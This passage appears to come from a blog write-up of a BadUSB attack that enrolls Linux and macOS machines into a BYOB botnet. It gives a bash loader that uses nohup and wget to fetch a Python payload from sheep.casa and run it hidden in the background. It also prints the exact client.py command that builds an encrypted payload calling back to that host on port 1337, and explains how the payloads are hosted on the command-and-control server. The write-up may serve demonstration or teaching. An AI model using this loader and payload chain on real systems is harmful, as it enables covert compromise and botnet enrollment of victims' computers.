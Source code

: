 As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.


#### Linux/OSX Loader  
Our BadUSB attack downloads and executes the loader script. For our attack on Linux and OSX machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload for Botnet

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.

![payload_generated](/wp-content/uploads/2019/12/payload_generated.png)
**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.
